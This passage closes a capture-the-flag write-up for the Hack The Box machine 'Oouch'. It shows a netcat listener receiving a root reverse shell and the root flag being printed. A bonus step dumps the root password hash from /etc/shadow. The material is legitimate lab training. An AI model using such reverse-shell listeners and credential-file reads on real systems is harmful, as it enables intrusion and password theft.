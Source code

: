And we receive the root shell:

```
$ nc -nlvp 9999
listening on [any] 9999 ...
connect to [172.17.0.1] from (UNKNOWN) [10.10.10.177] 37180
bash: cannot set terminal process group (2688): Inappropriate ioctl for device
bash: no job control in this shell
root@oouch:/root# id
uid=0(root) gid=0(root) groups=0(root)
root@oouch:/root# cat root.txt
cat root.txt
ff9e6428ad626cb968daba6eb1d33540
```

### Bonus

To unlock some WU we will need the root hash:

```
# cat /etc/shadow | grep root
root:$6$UQS7GJnfVbWRz5KO$vEaGmrfKvdrqh50eCr7D3AAruNfPe1dYhiv..ykDhlWWYvgaoabrqujg51k60bQz3jgTx.yXh5jCHNZ6ArkQ.1:18303:0:99999:7:::
```

[nmap]:https://nmap.org/
[ffuf]:https://github.com/ffuf/ffuf
[burp]:https://portswigger.net/burp
